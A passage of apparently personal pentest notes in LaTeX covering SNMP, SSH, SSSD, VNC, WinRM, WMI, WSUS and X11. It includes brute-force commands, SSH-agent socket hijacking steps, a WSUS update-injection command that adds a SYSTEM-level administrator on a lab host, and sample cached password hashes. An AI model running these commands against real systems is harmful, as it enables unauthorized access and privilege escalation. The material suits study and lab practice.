Redirect eveything to a file beacause it is very verbose

\begin{verbatim}
nmap -sU -p 161 -sV -sC IP
\end{verbatim}

\begin{itemize}
    \item \verb+snmp-info+: return basic information about the SNMP server
    \item \verb+snmp-interfaces+: return Network Information about the remote  host
    \item \verb+snmp-netstat+: gather active netstat output from a remote host 
    \item \verb+snmp-sysdescr+: reterive the SNMP Server type and Operating system 
    \item \verb+snmp-snmp-process+: List all processes on the target machine
        (Be careful this will generate quit a lot of output on the screen so it
        is better to log it to a file.) 
    \item \verb+snmp-brute+: brute force SNMP community strings to look for valid users on the remote machine.
\end{itemize}

\begin{verbatim}
nmap --script "snmp* and not snmp-brute" <target>
\end{verbatim}

\subsection{Brute-Force Community String (v1 and v2c)}

\subsubsection{onesixtyone}

If  community string are unknown, onesixtyone and SecLists wordlists ca be used
to identify these community strings.

\begin{verbatim}
 onesixtyone -c $SecLists/Discovery/SNMP/snmp.txt IP
\end{verbatim}


Often, when certain community strings are bound to specific IP addresses, they
are named with the hostname of the host, and sometimes even symbols are added
to these names to make them more challenging to identify. In an extensive
network with over 100 different servers managed using SNMP, the labels, in that
case, will have some pattern to them. Therefore, it is possible to use
different rules to guess them. Tools such as \verb+crunch+ can be used to
create custom wordlists. 

\subsection{OIDs enumeration}

\subsubsection{snmpwalk / snmpbulkwalk}

\begin{verbatim}
snmpbulkwalk -v2c -c <c_string> IP .

snmpwalk -v2c -c <c_string> IP <oid>

snmpwalk -v2c -c public 10.10.11.107 1.3.6.1.2.1.4.34.1.3 #Get IPv6, needed dec2hex
snmpwalk -v2c -c public 10.10.11.107 NET-SNMP-EXTEND-MIB::nsExtendObjects #get extended
snmpwalk -v2c -c public 10.10.11.107  .1 #Enum all

snmp-check <ip> -p <port> -c <c_string>


braa <community string>@<IP>:.1.3.6.* #Bruteforce specific OID
\end{verbatim}
Thanks to extended queries (download-mibs), it is possible to enumerate even
more about the system with the following command:

\begin{verbatim}
snmpwalk -v X -c public <IP> NET-SNMP-EXTEND-MIB::nsExtendOutputFull
\end{verbatim}
SNMP has a lot of information about the host and things that you may find
interesting are: Network interfaces (IPv4 and IPv6 address), Usernames, Uptime,
Server/OS version, and processes 

running (may contain passwords)\ldots

\subsubsection{braa}

Once community string are known \verb+braa+ cans be used to brute-force the
individual OIDs and enumerate the information behind them. \verb+braa+ is a
mass SNMP scanner. The intended usage of such a tool is, of course, making SNMP
queries – but unlike snmpwalk from net-snmp, it is able to query dozens or
hundreds of hosts simultaneously, and in a single process. Thus, it consumes
very few system resources and does the scanning VERY fast.

\begin{verbatim}
braa -2 <c_string>@<IP>:<oid>
braa -2 <c_string>@<IP>:.1.3.6.*
\end{verbatim}

It can also be used to set value
\begin{verbatim}
[community@]iprange[:port]:oid=value[/id]
\end{verbatim}

\subsubsection{Data Harvesting}
\url{https://www.rapid7.com/blog/post/2016/05/05/snmp-data-harvesting-during-penetration-testing/}

\subsection{Modifying SNMP values}

\verb+braa+ can be used

You can use \verb+NetScanTools+ to modify values. You will need to know the
private string in order to do so.


\subsection{Spoofing}
If there is an ACL that only allows some IPs to query the SMNP service, you can
spoof one of this addresses inside the UDP packet an sniff the traffic.


\subsection{SNMP RCE}

\url{https://rioasmara.com/2021/02/05/snmp-arbitary-command-execution-and-shell/}

NMP community with write permissions (rwcommunity) on the Linux operating
system can be abused to let the attacker execute a command on the server.

\chapter{SQLite}
\section{Introduction}





\section{Interaction}

\subsection{sqlite3}
\begin{verbatim}
sqlite3 FILENAME

sqlite> .databases
sqlite> .fullschema
sqlite> select * from ldap;
1|ArkSvc|BQO5l5Kj9MdErXx6Q6AGOw==|cascade.local
\end{verbatim}


\chapter{SSH}

\section{Introduction}


\section{Enumeration}


\section{SSH Hijacking}
With root access on a system, it is possible to compromise an active SSH
session to another machine via public key authentication. It is possible to
compromise the SSH agent or gain access to the SSH agent’s unix domain socket
and hijack the connection.

ssh-agent creates a unix domain socket, and then listens for connections from
the sshd daemon to this socket. Based on the permissions of this socket, any of
the authentication keys that are used by the socket can be compromised to any
user who can connect to the socket.

\begin{enumerate}
    \item find the sshd process id (\verb+ ps -aux |grep sshd+)
    \item find the \verb+SSH_AUTH_SOCK+ env var for tje sshd(\verb+grep SSH_AUTH_SOCK /proc//environ+)
    \item hijack thee ssh-agent socket (\verb+SSH_AUTH_SOCK=/tmp/ssh-XXXXXXX/agent.XXXX ssh-add –l+)
\end{enumerate}

section{Man-in-the-middle attack}

\section{Brute-force attack}

\section{Post exploitation tools}





\chapter{SSSD: System Security Services Daemon}

\section{Introduction}

SSSD offers access to remote identity and authentication mechanisms, referred to as providers

A domain is a database containing user information, which can serve as the source of a provider’s identity information. 

Multiple identity providers are supported, allowing two or more identity servers to act as separate user namespaces.

Collected information is available to applications on the front-end through standard PAM and NSS interfaces.


SSSD works in two stages:
\begin{enumerate}
    \item 
        It connects the client to a remote provider to retrieve identity and
        authentication information.
    \item 
        It uses the obtained authentication information to create a local cache
        of users and credentials on the client.
\end{enumerate}

Users on the local system are then able to authenticate using the user accounts
stored in the remote provider.


SSSD optionally keeps a cache of user identities and credentials retrieved from
remote providers. In this setup, a user - provided they have already
authenticated once against the remote provider at the start of the session -
can successfully authenticate to resources even if the remote provider or the
client are offline.



\subsection{Config}


\begin{verbatim}
/etc/sssd/sssd.conf
\end{verbatim}

\begin{verbatim}
krb5_store_password_if_offline = True
cache_credentials = True

\end{verbatim}


\subsection{cache}

\begin{verbatim}
/var/lib/sss/db/*
\end{verbatim}








\section{Attack cached creds}


\begin{verbatim}
# strings  /var/lib/sss/db/cache_cerberus.local.ldb


name
matthew@cerberus.local
objectCategory
user
uidNumber
1000
isPosix
TRUE
lastUpdate
1677672476
dataExpireTimestamp
initgrExpireTimestamp
cachedPassword
$6$6LP9gyiXJCovapcy$0qmZTTjp9f2A0e7n4xk0L6ZoeKhhaCNm0VGJnX/Mu608QkliMpIy1FwKZlyUJAZU3FZ3.GQ.4N6bb9pxE3t3T0
cachedPasswordType
lastCachedPasswordChange
1677672476

\end{verbatim}



\chapter{VNC Virtual Network Computing}
\url{https://www.hackingarticles.in/vnc-penetration-testing/}

\section{introduction}

In computing, Virtual Network Computing (VNC) is a graphical desktop-sharing
system that uses the Remote Frame Buffer protocol (RFB) to remotely control
another computer. It transmits the keyboard and mouse events from one computer
to another, relaying the graphical-screen updates back in the other direction,
over a network.

\section{footprinting}


VNC usually uses usually one of the following port 5800,5801, 5900 5901

\section{enumeration}
\begin{verbatim}
nmap -sV --script vnc-info,realvnc-auth-bypass,vnc-title
\end{verbatim}



\section{Password decryption}

\subsection{vncpasswd.py}

\href{https://github.com/trinitronx/vncpasswd.py}{vncpasswd.py}


\begin{verbatim}
git clone https://github.com/trinitronx/vncpasswd.py
cd vncpasswd.py
./vncpasswd.py -d -H f0e43164f6c2e373
\end{verbatim}



\chapter{WinRM}
\url{https://www.hackingarticles.in/winrm-penetration-testing/}
\section{Introduction}

Windows Remote Management (WinRM) is the Microsoft implementation of the network protocol Web Services Management Protocol (WS-Management). It is a network protocol based on XML web services using the Simple Object Access Protocol (SOAP) used for remote management of Windows systems. It takes care of the communication between Web-Based Enterprise Management (WBEM) and the Windows Management Instrumentation (WMI), which can call the Distributed Component Object Model (DCOM).

However, for security reasons, WinRM must be activated and configured manually in Windows 10. Therefore, it depends heavily on the environment security in a domain or local network where we want to use WinRM. In most cases, one uses certificates or only specific authentication mechanisms to increase its security. WinRM uses the TCP ports 5985 (HTTP) and 5986 (HTTPS).

A handy tool that we can use for our password attacks is CrackMapExec, which can also be used for other protocols such as SMB, LDAP, MSSQL, and others. We recommend reading the official documentation for this tool to become familiar with it.

\section{Exploit}

\subsection{Metasploit}

Identify the WinRM Authentication Method: 

\begin{verbatim}
use auxiliary/scanner/winrm/winrm_auth_methods
\end{verbatim}

brute force : 

\begin{verbatim}
use auxiliary/scanner/winrm/winrm_login
set user_file /root/user.txt
set pass_file /root/pass.txt
set stop_on_success true
exploit
\end{verbatim}


\subsection{CrackMapExec}

bruteforce

\begin{verbatim}
crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
\end{verbatim}

\subsection{Evil-WinRM}

\verb+evil-winrm -i <target-IP> -u <username> -p <password>+

\section{Links}
\begin{itemize}
    \item \url{https://docs.microsoft.com/en-us/windows/win32/winrm/portal}
    \item \url{https://docs.microsoft.com/en-us/windows/win32/winrm/ws-management-protocol}
    \item \url{https://en.wikipedia.org/wiki/Web-Based_Enterprise_Management}
    \item \url{https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page}
    \item \url{https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/4a893f3d-bd29-48cd-9f43-d9777a4415b0}
\end{itemize}


\chapter{WMI: Windows Management Instrumentation}
\section{Introduction}
Windows Management Instrumentation (WMI) is Microsoft's implementation and also
an extension of the {\bf Common Information Model (CIM)}, core functionality of the
standardized {\bf Web-Based Enterprise Management (WBEM)} for the Windows platform.
WMI allows read and write access to almost all settings on Windows systems.
Understandably, this makes it the most critical interface in the Windows
environment for the administration and remote maintenance of Windows computers,
regardless of whether they are PCs or servers. 

The initialization of the WMI communication always takes place on {\bf TCP port
135,} and after the successful establishment of the connection, the
communication is moved to a random port.

WMI is not a single program but consists of several programs and
various databases, also known as repositories. It is made up of the following
components: 

\begin{tabularx}{\linewidth}{|l|X|}
   \hline 
Component Name &	Description\\
   \hline 
WMI service & 	The Windows Management Instrumentation process, which runs
automatically at boot and acts as an intermediary between WMI providers, the
WMI repository, and managing applications.\\
   \hline 
Managed objects &	Any logical or physical components that can be managed by
WMI.\\
   \hline 
WMI providers &	Objects that monitor events/data related to a specific
object.\\
   \hline 
Classes &	These are used by the WMI providers to pass data to the WMI
service.\\
   \hline 
Methods &	These are attached to classes and allow actions to be performed.
For example, methods can be used to start/stop processes on remote machines.\\
   \hline 
WMI repository &	A database that stores all static data related to WMI.\\
   \hline 
CMI Object Manager &	The system that requests data from WMI providers and
returns it to the application requesting it.\\
   \hline 
WMI API &	Enables applications to access the WMI infrastructure.\\
   \hline 
WMI Consumer &	Sends queries to objects via the CMI Object Manager.\\
   \hline 
\end{tabularx}

Some of the uses for WMI are:
\begin{itemize}
    \item  Status information for local/remote systems
    \item  Configuring security settings on remote machines/applications
    \item  Setting and changing user and group permissions
    \item  Setting/modifying system properties
    \item  Code execution
    \item  Scheduling processes
    \item  Setting up logging
\end{itemize}

These tasks can all be performed using a combination of PowerShell and the WMI
Command-Line Interface (WMIC):
\begin{itemize}
    \item \href{https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmic}{WMI
Command-Line Interface (WMIC)}


    \item \href{https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-wmiobject?view=powershell-5.1}{Get-WmiObject
module} for PowerShell.


    \item
        \href{https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/invoke-wmimethod?view=powershell-5.1}{Invoke-WmiMethod
        module}
\end{itemize}


\subsection{Quick notes}

get-help transaction
get-help transcription

\$PROFILE  
1- create you profile
2- apply profile
3 run PS in Unrestricted or Bypass

\begin{verbatim}
$Transcriptionlo = $env:computername+'--'+(Get-Date -UFormat '%Y%m%d')
    Start-Transcript -LiteralPath 'c:\transcript\$Transcript.log' - Append
\end{verbatim}

get-help wmi
get-help CMI

CMI kind of new version of WMI. Faster and more elegant

Get-WMIObject -Class XXX | get-member
Get-WMIObject -Class XXX -Filter XXX
Get-WMIObject -Query 'Select * from \ldots where\ldots
Get-WMIObject -List *

WMI (windows management instrumentation) => objects

Get-WMIObjet, Set-WMIObject, Remove-WMIObject

CMI (common information model) => classes
Get-CIMClass -ClassName
Get-CIMClass -ClassName XXX | Get-Member

\section{Footprint / enumeration}

\subsection{wmiexec}

\verb+wmiexec+~\ref{tool:impacker:wmiexec}


\section{Links}
\begin{itemize}
    \item \url{https://www.youtube.com/watch?v=a8_DqEVFwO8}
    \item
        \url{https://devblogs.microsoft.com/powershell/introduction-to-cim-cmdlets/}
\end{itemize}

\chapter{WSUS: Windows Server Update Service}
\section{Introduction}

WSUS enables system administrators in organizations to centrally manage the
distribution of updates and hotfixes released by Microsoft to a fleet of
systems.

Windows Server Update Service (WSUS) acts as a proxy to Microsoft’s public Windows
Update service. The WSUS server fetches updates via the Internet from Windows Update
and caches them locally. Intranet-based PCs are then configured to fetch updates from
the WSUS server. This gives administrators greater control over how updates are
deployed on their network.

The address of the WSUS server is configured using the following registry key:
\begin{verbatim}
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\WindowsUpdate\W
UServer
\end{verbatim}

For example, the value of WUServer may be \verb+http://wsus-server:8530+. Port
8530 is the default port used for WSUS. These settings will typically be
configured via Group Policy.

\section{Protocol}
WSUS uses SOAP XML calls to perform updates. The WSUS SOAP protocol is
virtually identical to the Windows Update protocol, with the exception of the
authorisation step.

When a computer first connects to a WSUS server it must perform some setup steps to
register itself and fetch cookies that are required for subsequent requests.
These SOAP calls are typically performed only once. A computer will only re-register
if its cookie expires, if the client or server are upgraded, or when trying to recover from
errors.

Once a client has registered itself, it can then check for updates. A client will normally
check for updates at regular intervals, or when a user manually triggers an update
check.

The SyncUpdates response contains a list of update IDs and metadata that allows the
client to decide whether each update should be installed. For example, the metadata
can specify dependencies on other updates or query file versions and registry values:

\begin{verbatim}
<UpdateIdentity UpdateID="53979536-176e-46c2-9f61-bcf68381c065"
RevisionNumber="206" />
<Properties UpdateType="Software" />
<Relationships>

   <Prerequisites>
       <UpdateIdentity UpdateID="59653007-e2e9-4f71-8525-2ff588527978" />
       <UpdateIdentity UpdateID="71c1e8bb-9a5d-4e56-a456-10b0624c7188" />

   </Prerequisites>
</Relationships>
<ApplicabilityRules>

   <IsInstalled>
       <b.FileVersion Version="6.1.7601.22045" Comparison="GreaterThanOrEqualTo"
                                  Path="\conhost.exe" Csidl="37" />

   </IsInstalled>
   <IsInstallable>

       <Not>
          <CbsPackageInstalledByIdentity
                PackageIdentity="InternetExplorer-Package~11.2.9600.16428" />

       </Not>
</IsInstallable>
\end{verbatim}

Once the client has processed the metadata for each update returned by SyncUpdates, it
passes a list of updates it wishes to install to \verb+GetExtendedUpdateInfo+

The \verb+GetExtendedUpdateInfo+ response contains the full details needed to download,
verify and install the update.
\begin{verbatim}
<soap:Envelope><soap:Body>
<GetExtendedUpdateInfoResponse><GetExtendedUpdateInfoResult>
   <Updates>
       <Update>
          <ID>17212691</ID>
          <Xml>&lt;ExtendedProperties...&lt;/HandlerSpecificData&gt;</Xml>
       </Update>
       <Update>
          <ID>17212692</ID>
          <Xml>&lt;ExtendedProperties...&lt;/HandlerSpecificData&gt;</Xml>
       </Update>
       ...
   </Updates>
   <FileLocations>
       <FileLocation>
          <FileDigest>tXa3bCw4XzkLd/Fyfs2ATZcYgh8=</FileDigest>
              <Url>http://wsus-server:8530/Content/1F/B576B76C2C385F39.cab</Url>
          </FileLocation>
          <FileLocation>
              <FileDigest>OzTUyOLCmjlK08U2VJNHw3rfpzQ=</FileDigest>
              <Url>http://wsus-server:8530/Content/34/3B34D4C8E2C29A39.cab</Url>
       </FileLocation>
   </FileLocations>

</GetExtendedUpdateInfoResult></GetExtendedUpdateInfoResponse>
</soap:Body></soap:Envelope>
\end{verbatim}

Shown below are the XML-decoded contents of an \verb+<Xml>+ tag.
\begin{verbatim}
<ExtendedProperties DefaultPropertiesLanguage="en"
   Handler="http://schemas.microsoft.com/msus/2002/12/UpdateHandlers/WindowsInstaller"
   MaxDownloadSize="3077548" MinDownloadSize="0">
   <InstallationBehavior RebootBehavior="CanRequestReboot" />

<UninstallationBehavior />
</ExtendedProperties>
<Files>

   <File Digest="OzTUyOLCmjlK08U2VJNHw3rfpzQ=" DigestAlgorithm="SHA1"
              FileName="infopath-x-none.cab"
              Size="3077548" Modified="2013-12-18T21:44:08.38Z"
              PatchingType="SelfContained">

       <AdditionalDigest Algorithm="SHA256">FS28f… ohVcFKbaG4=</AdditionalDigest>
   </File>
</Files>
<HandlerSpecificData type="msp:WindowsInstaller">
   <MspData CommandLine="DISABLESRCPROMPT=1 LOCALCACHESRCRES=0 NOLOCALCACHEROLLBACK=1"

                    UninstallCommandLine="DISABLESRCPROMPT=1 LOCALCACHESRCRES=0
                                                            NOLOCALCACHEROLLBACK=1"

                    FullFilePatchCode="{39767eca-1731-45db-ab5b-6bf40e151d66}" />
</HandlerSpecificData>
\end{verbatim}

These details tell Windows Update how to apply the update to the system. The Digest
attribute of the File tag matches with the FileLocation tag (in the previous figure) to
allow the update file to be downloaded. Each update is processed by a particular
handler.

Windows Update supports the following handlers:
\begin{itemize}
    \item Cbs (Cab file)
    \item WindowsDriver
    \item WindowsInstaller
    \item WindowsPatch
    \item InfBasedInstallation
    \item CommandLineInstallation
\end{itemize}

The \verb+CommandLineInstallation+ update handler allows a single executable
file to be downloaded and run with arbitrary arguments. Below is shown example
metadata for the Malicious Software Removal tool:

\begin{verbatim}
<ExtendedProperties DefaultPropertiesLanguage="en"
Handler="http://schemas.microsoft.com/msus/2002/12/UpdateHandlers/CommandLineInst
allation"

   MaxDownloadSize="41837240" MinDownloadSize="0">
   <InstallationBehavior RebootBehavior="CanRequestReboot" />
</ExtendedProperties>
<Files>
   <File Digest="sJRqIvCrdbpZvP18wDS2HbwhFUE=" DigestAlgorithm="SHA1"
   FileName="Windows-KB890830-x64-V5.22.exe"
   Size="41837240" Modified="2015-02-27T15:54:52Z">

       <AdditionalDigest Algorithm="SHA256">robj...WY0=</AdditionalDigest>
   </File>
</Files>
<HandlerSpecificData type="cmd:CommandLineInstallation">
   <InstallCommand Arguments="/Q /W"

       Program="Windows-KB890830-x64-V5.22.exe"
       RebootByDefault="false" DefaultResult="Succeeded">
   <ReturnCode Reboot="true" Result="Succeeded" Code="3010" />
   <ReturnCode Reboot="false" Result="Failed" Code="1603" />
   <ReturnCode Reboot="false" Result="Failed" Code="-2147024894" />
</InstallCommand></HandlerSpecificData>
\end{verbatim}


\subsection{Security}
By default, WSUS does not use SSL for the SOAP web service. However, since SSL
is not enabled by default it is likely that a significant number of WSUS
deployments do not use SSL.

All update packages that are downloaded by Windows Update are signed with a
Microsoft signature.

Windows Update will verify this signature before installing the update, rejecting any
non-Microsoft-signed packages.

\section{Fingerprinting}

\subsubsection{WSUS over HTTP}
\begin{verbatim}
reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer
\end{verbatim}
If the key doesn’t exist, then the public Windows Update server will be used
for updates. If WSUS is being used, the value will be something like
\verb+http://wsus-server.local:8530+. If the URL does not start with https,
then the computer is vulnerable to the injection attack.

\begin{verbatim}
req query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer
\end{verbatim}
If this is set to 0 then the WUServer setting will be ignored. If set to 1, the
WSUS URL will be used.


\section{attacking}

\subsection{WSUS Metadata Tampering}
Although the update files themselves are signed by Microsoft and cannot be modified
without invalidating the signature, an attacker is free to modify the update metadata, or
even create fake updates for the client to install.

Windows Update will verify that each update is signed by Microsoft. However, there is
no specific ‘Windows Update’ signing certificate – any file that is signed by a Microsoft
CA will be accepted. By injecting an update that uses the CommandLineInstallation
update handler, an attacker can cause a client to run any Microsoft-signed executable,
even one that was not intended to be used in Windows Update. Even better, the
executable can be run with arbitrary arguments. Therefore we need to find a suitable
executable that will allow arbitrary commands to be executed.

Our initial thought was to create an update that used cmd.exe to run arbitrary
commands. However cmd.exe is not actually signed, nor are most of the executables in
a standard Windows installation. However Microsoft’s SysInternals tools are signed. The
PsExec SysInternals utility, which is normally used to run commands on remote systems
can also be used to run commands as the current user. By injecting an update that uses
PsExec, the update XML can specify any arguments for PsExec, therefore allowing the
attacker to run arbitrary commands. See Appendix 3 for a full example of how to inject
an update.

\subsection{WSUS Update Injection Attack}
WSUS deployments that are not configured to use SSL are vulnerable to man-in-the-
middle attacks. A network-based attacker can use ARP spoofing or WPAD injection
attacks to intercept and modify the SOAP requests between clients and the WSUS server,
and perform the metadata tampering described above.

In corporate environments where user proxy settings are not locked down, a low-
privileged user could update their proxy settings to point at a local man-in-the-middle
proxy server that would perform the metadata injection.

Context have tested both of these scenarios and found them to be effective. The
executable specified by the injected update is run as 
\verb+NT AUTHORITY\SYSTEM+.

A disadvantage of PsExec is that some anti-virus solutions such as Sophos detect it as a
‘hacking tool’. We identified another SysInternals tool, BgInfo as an alternative to
PsExec. BgInfo normally used to display system details on the desktop background.

BgInfo allows custom fields to be displayed, including fields generated from VBScript

An attacker could use BgInfo in place of PsExec, hosting its configuration file on an
unauthenticated Windows share. This allows full command execution via the VBScript
file.

\subsubsection{WSUSpendu}

\href{https://github.com/AlsidOfficial/WSUSpendu.git}{WSUSpendu}  allow to
create a new update, inject it in the WSUS server database, and distribute it
to the appropriate client. The binary will then be executed on the client under
the SYSTEM account, with the update-provided arguments.
\begin{verbatim}
.\Wsuspendu.ps1 -Inject -PayloadFile .\PsExec64.exe
    -PayloadArgs '-accepteula -s -d cmd.exe /c "net localgroup Administrators X
                    /add"'
    -ComputerName dc.outdated.htb
\end{verbatim}

\section{links}

\begin{itemize}
    \item \url{https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/}
    \item \url{https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/}
    \item \url{https://www.gosecure.net/blog/2021/11/22/gosecure-investigates-abusing-windows-server-update-services-wsus-to-enable-ntlm-relaying-attacks/}
\end{itemize}





\chapter{X11}

\section{Introduction}

X uses a client–server model. An X server program runs on a computer with a
graphical display and communicates with various client programs. The X server
acts as a go-between for the user and the client programs, accepting requests
on TCP port 6000 for graphical output (windows) from the client programs and
displaying them to the user (display), and receiving user input (keyboard,
mouse) and transmitting it to the client programs.

In X, the server runs on the user's computer, while the clients may run on
remote machines. 

\subsection{Some clients}
\subsubsection{Window manager}
A window manager is a program that controls the general appearance of windows
and other graphical elements of the graphical user interface. 

The window manager takes care of deciding the position of windows, placing the
decorative border around them, handling icons, handling mouse clicks outside
windows (on the “background”), handling certain keystrokes, etc.


\subsubsection{Session manager}

Roughly, the state of a session is the “state of the desktop” at a given time:
a set of windows with their current content. More precisely, it is the set of
applications managing these windows and the information that allow these
applications to restore the condition of their managed windows if required. A
program known as the X session manager saves and restores the state of
sessions.

Using a session manager permits a user to log out from an interactive session but to find exactly the same windows in the same state when logging in again. 

Somme sessions managers: xsmi, ksmserver, xfce4-session, gnome-session.

\subsubsection{X display manage}

The program known as the X display manager shows the graphical login prompt in
the X Window System. More generally, a display manager runs one or more X
servers on the local computer or accepts incoming connections from X servers
running on remote computers.
The local servers are started by the display manager, which then connects to
them to present the user the login screen. The remote servers are started
independently from the display manager and connect to it. 
In this situation, the display manager works like a graphical telnet server: an
X server can connect to the display manager, which starts a session; the
applications which utilize this session run on the same computer of the display
manager but have input and output on the computer where the X server runs
(which may be the computer in front of the user or a remote one).

The X Window System ships with XDM as the basic supplied display manager. Other
display managers include GDM (GNOME), KDM/SDDM (KDE), WDM and entrance.


\subsection{Display}

In X11, a display refers to a group of display devices which an X Server can
directly send and receive graphical data. An X Display is generally made up of
at least one screen, keyboard, and pointer device. In this context, a screen is
not a physical monitor, rather a virtual canvas which can read raw graphical
data. In practice a single screen can be made up of multiple monitors and other
virtual displays.

X Client Programs use the \verb+$DISPLAY+ variable, which looks like
\verb+hostname:display_number.screen_number+, to determine which X Display to
connect to. An X Program can derive a tcp or unix socket from this value to
form a connection to the display through the X Server. Once the connection is
accepted, the X Server forwards the connection to the requested screen.

The \verb+$DISPLAY+ variable has some hidden rules that can be a bit confusing.
First of all, the display number must always be explicitly set, while the
hostname and screen number will default to \verb+device_name/unix+ and \verb+0+
respectively. As a result, \verb+:0+ is actually \verb+device_name/unix:0.0+,
and the two values will be treated identically. 

\subsection{Security}

There are five standard access control mechanisms that control whether a client application can connect to an X display server. They can be grouped in three categories:
\begin{itemize}
    \item access based on host
    \item access based on cookie
    \item access based on user
\end{itemize}

Additionally, like every other network connection, tunneling can be used. 

\subsubsection{Host-based access}

he host-based access method consists in specifying a set of hosts that are
authorized to connect to the X display server. This system has inferior
security, as it allows every user who has access to such a host to connect to
the display. The \verb+xhost+ program and three X Window System core protocol
requests are used to activate this mechanism and to display and change the list
of authorized hosts. Improper use of \verb+xhost+ can inadvertently give every
host on the Internet full access to an X display server.

\subsubsection{Cookie-based access}
The cookie-based authorization methods are based on choosing a magic cookie
and passing it to the X display server when it is started; every client that
can prove having knowledge of this cookie is then authorized connecting to the
server.

These cookies are created by a separate program (\verb+xauth+) and stored in
the file \verb+.Xauthority+ in the user's home directory, by default. As a
result, every program run by the client on the local computer can access this
file. If the user wants to run a program from another computer on the network,
the cookie has to be copied to that other computer. 

The two systems using this method are \verb+MIT-MAGIC-COOKIE-1+ and
\verb+XDM-AUTHORIZATION-1+. In the first method, the client simply sends the
cookie when requested to authenticate. In the second method, a secret key is
also stored in the \verb+.Xauthority+ file. The client creates a string by
concatenating the current time, a transport-dependent identifier, and the
cookie, encrypts the resulting string, and sends it to the server. 

Unfortunately, these permissions are not fine-grained but rather split
up into only two categories; trusted and untrusted. A cookie with trusted
permissions will provide unmitigated access to the X Server, while an untrusted
cookie will restrict permissions, such as restricting the program to only its
own window and denying access to the clipboard.

Using the \verb+xauth+ program, you can add and generate cookies in an X Server and
save them to disk to \verb+$XAUTHORITY+ if set, or \verb+~/.Xauthority+
otherwise. When you run an X Program, it will retrieve X Auth data for the
requested display from \verb+$XAUTHORITY+ or \verb+~/.Xauthority+, and provide
the X Auth data when connecting to the X Server in order to be authenticated.

One thing you should know is that if an {\bf X Program cannot find any X Auth data
for the requested display, it will form the connection without X Auth data. The
X Server will just accept the connection anyways and uses its default insecure
connection method}. This means that it is the sole responsibility of the X
Program to enforce its own authentication and authorization, rather than the X
Server enforcing it. For this reason, {\bf xauth is usually used alongside other
access control systems, such as xhost, to prevent untrusted X Clients from even
attempting to connect to the X Server}.

\begin{figure}
  
\includegraphics[width=\linewidth]{network/x11/images/x11-program.png}
  \caption{X11 programs}
  \label{fig:x11-programs}
\end{figure}

\subsubsection{User-based access}
The user-based access methods work by authorizing specific users to connect to
the server. When a client establishes a connection to a server, it has to prove
being controlled by an authorized user.

The two methods based on authenticating users using networked identity
management systems are \verb+SUN-DES-1+ and \verb+MIT-KERBEROS-5+. The first
system is based on a secure mechanism of the ONC remote procedure call system
developed in SunOS. The second mechanism is based on both client and server
trusting a Kerberos server.

A third method is limited to local connections, using system calls to ask the
kernel what user is on the other end of a local socket. The \verb+xhost+
program can be used to add or remove localuser and localgroup entries with this
method.

\subsection{Network}
Network traffic between an X server and remote X clients is not encrypted by
default. An attacker with a packet sniffer can intercept it, making it possible
to view anything displayed to or sent from the user's screen. The most common
way to encrypt X traffic is to establish a Secure Shell (SSH) tunnel for
communication.

\subsubsection{old fashion}

expose the X port and open firewall

set \verb+.Xauthority+ and run

\subsubsection{X11 forwarding}
SSH can initiate a secure tunnel.

Starting an X11 tunnel:
\begin{verbatim}
    ssh -X -C username@hostname
\end{verbatim}

The \verb+-X+ option activates X11 forwarding, and the \verb+-C+ options
